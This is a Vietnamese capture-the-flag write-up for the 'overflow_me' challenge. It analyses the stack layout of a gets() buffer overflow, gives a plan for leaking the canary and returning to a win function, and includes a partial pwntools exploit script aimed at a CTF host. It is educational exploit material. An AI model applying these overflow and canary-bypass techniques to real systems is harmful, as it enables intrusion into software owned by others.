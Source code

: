 1.  Chương trình tự in ra giá trị canary.
2.  Lỗ hổng `gets` cho phép chúng ta ghi tràn bộ đệm.
3.  **Chi tiết quan trọng nhất:** Phân tích vị trí các biến trên stack.
    *   `char local_58[64]`
    *   `long local_18` (Canary)
    *   `FILE *local_10` (Một con trỏ 8 byte)
    *   `Saved RBP` (8 byte)
    *   `Return Address` (8 byte)

Điều này có nghĩa là, từ canary đến địa chỉ trả về, chúng ta phải đi qua `local_10` (8 byte) và `Saved RBP` (8 byte), tổng cộng là **16 byte padding**, chứ không phải 8 byte như chúng ta lầm tưởng ban đầu.

#### **Hàm `get_flag`**

```c
void get_flag(void)
{
  fflush(stdout);
  system("cat flag.txt");
  ...
}
```
Đây là hàm "win" của chúng ta. Mục tiêu là chuyển hướng thực thi đến đây.

### **Lộ trình khai thác**

1.  **Leak `secret_key`**: Gửi địa chỉ của `secret_key` (lấy từ ELF) cho chương trình, đọc giá trị trả về.
2.  **Vào `get_input`**: Gửi lại giá trị `secret_key` vừa leak.
3.  **Leak Canary**: Đọc và lưu lại giá trị canary mà chương trình in ra.
4.  **Xây dựng Payload**:
    *   Padding 64 byte để lấp đầy buffer `local_58`.
    *   Gửi lại 8 byte canary vừa leak.
    *   Padding **16 byte** để ghi đè lên `local_10` và `Saved RBP`.
    *   Gửi địa chỉ của một `ret` gadget để sửa lỗi căn lề stack.
    *   Gửi địa chỉ của hàm `get_flag`.
5.  **Gửi Payload và nhận Flag**.

### **Script**

```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./overflow_me', checksec=False)
p = remote('chals.ctf.csaw.io', 21006)

secret_key_addr = elf.symbols['secret_key']
p.recvuntil(b'Tell me its address\n')
p.send(p64(secret_key_addr))
leaked_secret_key = int(p.recvline().strip(), 16)

p.recvuntil(b'the story unlocks\n')
p.send(p64(leaked_secret_key))
log.info("Sent secret_key, entering get_input function...")

p.recvuntil(b'for you: 0x')
leaked_canary = int(p.recvline().strip(), 16)
log.success(f"Leaked secret_key: {hex(leaked_secret_key)}")
log.success(f"Leaked CANARY: {hex(leaked_canary)}")

rop = ROP(elf)
ret_gadget = rop.find_gadget(['ret']).address
log.info(f"Found ret gadget to align stack at: {hex(ret_gadget)}")
```